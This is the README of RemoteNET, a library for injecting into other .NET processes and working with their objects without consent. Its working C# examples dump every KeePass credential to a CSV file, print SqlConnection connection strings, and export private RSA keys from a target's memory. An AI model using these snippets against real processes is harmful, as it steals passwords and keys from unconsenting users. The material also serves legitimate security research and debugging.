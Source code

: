 ![icon](https://raw.githubusercontent.com/theXappy/RemoteNET/main/icon.png)
# RemoteNET
This library lets you examine, create and interact with remote objects in other .NET (framework) processes.  
It's like [System.Runtime.Remoting](https://docs.microsoft.com/en-us/dotnet/api/system.runtime.remoting?view=net-5.0) except the other app doesn't need to be compiled (or consent) to support it.

Basically this library lets you mess with objects of any other .NET (framework) app without asking for permissions :)

## Compilation
1. Clone
2. Open `RemoteNET.sln` file in VisualStudio 2019
3. Build Solution (`Ctrl+Shift+B`)

If you get errors of missing exes/dlls make sure the compilation order is set such that  
the C++ projects compile first (BOTH x32 and x64 need to be compiled), then **ScubaDiver** and then **RemoteNET**.

## Minimal Working Example
To get the essence of how easy and usefull this library can be, see below a re-implementation of [denandz/KeeFarce](https://github.com/denandz/KeeFarce).  
This example interacts with an open KeePass process and makes it export all credentials to a CSV file.  
```C#
// Gain foothold within the target process
Process keePassProc =  Process.GetProcessesByName("KeePass").Single();
RemoteApp remoteApp = RemoteApp.Connect(keePassProc);
RemoteActivator rActivator = remoteApp.Activator;

// Get a remote DocumentManagerEx object
IEnumerable<CandidateObject> candidates = remoteApp.QueryInstances("KeePass.UI.DocumentManagerEx");
RemoteObject remoteDocumentManagerEx = remoteApp.GetRemoteObject(candidates.Single());
dynamic dynamicDocumentManagerEx = remoteDocumentManagerEx.Dynamify();

// Get sensitive properties to dump
dynamic activeDb = dynamicDocumentManagerEx.ActiveDatabase;
dynamic rootGroup = activeDb.RootGroup;

// Create remote PwExportInfo object (Call Ctor)
RemoteObject pwExportInfo = rActivator.CreateInstance("KeePass.DataExchange.PwExportInfo", rootGroup, activeDb, true);

// Create remote KeePassCsv1x (Call Ctor)
RemoteObject keePassCsv1x = rActivator.CreateInstance("KeePass.DataExchange.Formats.KeePassCsv1x");
dynamic dynamicCsvFormatter = keePassCsv1x.Dynamify();

// Creating a remote FileStream object
string tempOutputFile = Path.ChangeExtension(Path.GetTempFileName(), "csv");
RemoteObject exportFileStream = rActivator.CreateInstance(typeof(FileStream), tempOutputFile, FileMode.Create);

// Calling Export method of exporter
dynamicCsvFormatter.Export(pwExportInfo, exportFileStream, null);

// Showing results in default CSV editor.
Console.WriteLine($"Output written to: {tempOutputFile}");
Process.Start(tempOutputFile);
```

## How To Use
This section documents most parts of the library's API which you'll likely need.

### ★ Setup
To start playing with a remote process you need to create a `RemoteApp` object like so:
```C#
Process target =  Process.GetProcessesByName("OtherDotNetAppName").Single();
RemoteApp remoteApp = RemoteApp.Connect(target);
```

### ★ Getting Remote Objects
RemoteNET allows you to interact with existing objects and create new ones.  
**To find existing objects** you'll need to search the remote heap.  
Use `RemoteApp.QueryInstances` to find possible candidate for the desired object and `RemoteApp.GetRemoteObject` to get a handle of a candidate.  
```C#
IEnumerable<CandidateObject> candidates = remoteApp.QueryInstances("MyApp.PasswordContainer");
RemoteObject passwordContainer = remoteApp.GetRemoteObject(candidates.Single());
```
**To create new objects** the `Activator`-lookalike can be used:
```C#
// Creating a remote StringBuilder with default constructor
RemoteObject remoteSb1 = remoteApp.Activator.CreateInstance(typeof(StringBuilder));

// Creating a remote StringBuilder with the (string,int) constructor
RemoteObject remoteSb1 = remoteApp.Activator.CreateInstance(typeof(StringBuilder), "Hello", 100);
```
Note how we used constructor arguments in the second `CreateInstance` call. Those could also be other `RemoteObject`s:
```C#
RemoteObject remoteStringBuilder = remoteApp.Activator.CreateInstance(typeof(StringBuilder));
// Constructing using the "StringWriter(StringBuilder sb)" ctor
RemoteObject remoteStringWriter = remoteApp.Activator.CreateInstance(typeof(StringWriter), remoteStringBuilder);
```

### ★ Reading Remote Fields/Properties
To allow a smooth coding expereince RemoteNET is utilizing a special dynamic object which any `RemoteObject` can turn into.  
This object can be used to access field/properties just if they were field/properties of a local object:
```C#
RemoteObject remoteStringBuilder = remoteApp.Activator.CreateInstance(typeof(StringBuilder));
dynamic dynamicStringBuilder = remoteStringBuilder.Dynamify();
Console.WriteLine("Remote StringBuilder's Capacity: " + dynamicStringBuilder.Capacity)
```
A more interesting example would be retrieving the `ConnectionString`s of every `SqlConnection` instance:
```C#
var sqlConCandidates = remoteApp.QueryInstances(typeof(SqlConnection));
foreach (CandidateObject candidate in sqlConCandidates)
{
    RemoteObject remoteSqlConnection = remoteApp.GetRemoteObject(candidate);
    dynamic dynamicSqlConnection = remoteSqlConnection.Dynamify();
    Console.WriteLine("ConnectionString: " + dynamicSqlConnection.ConnectionString);
}
```

### ★ Invoking Remote Methods
Just like accessing fields, invoking methods can be done on the dynamic objects.  
This fun example dumps all private RSA keys (which are stored in `RSACryptoServiceProvider`s) that are found in the target's memory:
```C#
Func<byte[], string> ToHex = ba => BitConverter.ToString(ba).Replace("-", "");

// Finding every RSACryptoServiceProvider instance
var rsaProviderCandidates = remoteApp.QueryInstances(typeof(RSACryptoServiceProvider));
foreach (CandidateObject candidateRsa in rsaProviderCandidates)
{
    RemoteObject rsaProv = remoteApp.GetRemoteObject(candidateRsa);
    dynamic dynamicRsaProv = rsaProv.Dynamify();
    // Calling remote `ExportParameters`.
    // First parameter (true) indicates we want the private key.
    dynamic parameters = dynamicRsaProv.ExportParameters(true);
    Console.WriteLine((string) ("Modulus: " + ToHex(parameters.Modulus)));
    Console.WriteLine((string) ("Exponent: " + ToHex(parameters.Exponent)));
    Console.WriteLine((string) ("D: " + ToHex(parameters.D)));
    Console.WriteLine((string) ("P: " + ToHex(parameters.P)));
    Console.WriteLine((string) ("Q: " + ToHex(parameters.Q)));
    Console.WriteLine((string) ("DP: " + ToHex(parameters.DP)));
    Console.WriteLine((string) ("DQ: " + ToHex(parameters.DQ)));
    Console.WriteLine((string) ("InverseQ: " + ToHex(parameters.InverseQ)));
}
```

## TODOs
1. Generics aren't completely supported
2. Static members
3. Support injecting to self with local diver
4. Document "Reflection API" (RemoteType, RemoteMethodInfo, ... )
5. .NET core/.NET 5
6. Support other .NET framework CLR versions. Currently supports v4.0.30319


## Thanks
**denandz** for his interesting project **KeeFarce** which was a major inspiration for this project.  
Also multiple parts of this project are directly taken from KeeFarce (DLL Injection, Bootstrap, IntPtr-to-Object converter).

**icons8** for the "Puppet" icon

**Raymond Chen** for stating this project shouldn't be done in [this blog post from 2010](https://devblogs.microsoft.com/oldnewthing/20100812-00/?p=13163).  
I really like this qoute from the post:
>If you could obtain all instances of a type, the fundamental logic behind computer programming breaks down. It effectively becomes impossible to reason about code because anything could happen to your objects at any time.
